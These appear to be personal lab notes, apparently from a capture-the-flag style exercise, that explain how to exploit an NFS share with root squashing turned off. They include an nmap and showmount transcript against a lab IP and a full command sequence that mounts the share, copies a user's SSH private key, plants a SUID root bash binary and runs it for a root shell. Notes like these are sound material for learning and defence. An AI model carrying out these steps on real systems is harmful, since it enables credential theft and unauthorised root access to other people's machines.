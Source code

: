 If [root Squasing](NetworkServices#root%20squashing) isnt configured it can be exploited:

SUID (bit set) = specific linux authorization method to execute Files with every User as Owner/Group (like a superuser)

Download: [Standard Ubuntu Server 18.04 Bash Executable](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)

```
cd /downloads/
sudo chown root bash
cp /downloads/bash /nfs/home/bash
sudo chmod +s /nfs/home/bash
ssh -i id_rsa xxx@ip
./bash -p
```

- needs NFS + SSH access
- -p = persists the permission, so SUID can be executed as root, else permissions could be dropped
- +s = SUI Permission so we can execute files with other users as owner

Example:

``` 
nmap -A --top-ports 100 10.10.128.227

        Nmap scan report for ip-10-10-128-227.eu-west-1.compute.internal (10.10.128.227)
	Host is up (0.00090s latency).
	Not shown: 97 closed ports
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 73:92:8e:04:de:40:fb:9c:90:f9:cf:42:70:c8:45:a7 (RSA)
	|   256 6d:63:d6:b8:0a:67:fd:86:f1:22:30:2b:2d:27:1e:ff (ECDSA)
	|_  256 bd:08:97:79:63:0f:80:7c:7f:e8:50:dc:59:cf:39:5e (EdDSA)
	111/tcp  open  rpcbind 2-4 (RPC #100000)
	| rpcinfo: 
	|   program version   port/proto  service
	|   100000  2,3,4        111/tcp  rpcbind
	|   100000  2,3,4        111/udp  rpcbind
	|   100003  3           2049/udp  nfs
	|   100003  3,4         2049/tcp  nfs
	|   100005  1,2,3      35337/udp  mountd
	|   100005  1,2,3      56859/tcp  mountd
	|   100021  1,3,4      35347/udp  nlockmgr
	|   100021  1,3,4      39613/tcp  nlockmgr
	|   100227  3           2049/tcp  nfs_acl
	|_  100227  3           2049/udp  nfs_acl
	2049/tcp open  nfs_acl 3 (RPC #100227)
	MAC Address: 02:AD:DB:09:B1:93 (Unknown)
	No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
	TCP/IP fingerprint:
	OS:SCAN(V=7.60%E=4%D=7/19%OT=22%CT=7%CU=42941%PV=Y%DS=1%DC=D%G=Y%M=02ADDB%T
	OS:M=62D65C3C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A
	OS:)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5
	OS:=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W
	OS:6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S
	OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
	OS:D=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=
	OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U
	OS:1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
	OS:I=N%T=40%CD=S)

	Network Distance: 1 hop
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE
	HOP RTT     ADDRESS
	1   0.90 ms ip-10-10-128-227.eu-west-1.compute.internal (10.10.128.227)

	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 22.60 seconds

/usr/sbin/showmount -e 10.10.128.227
        
        Export list for 10.10.128.227:
        /home *
   
mkdir /tmp/mount
sudo mount -t nfs 10.10.128.227:home /tmp/mount/ -nolock
cd /tmp/mount
cd cappucino/.ssh
cp id_rsa /tmp/id_rsa
vi id_rsa.pub
cd /tmp
ssh -i id_rsa cappucino@10.10.128.227
exit()
download https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
sudo chown root bash
cd /tmp/mountcappucino/
cp /root/downloads/bash .
sudo chmod +s bash
ls -lisa
	-rwsr-sr-x 1 root   root   1113504 Jul 19 10:16 bash*
ssh -i id_rsa cappucino@10.10.128.227
./bash -p
cd /root/
```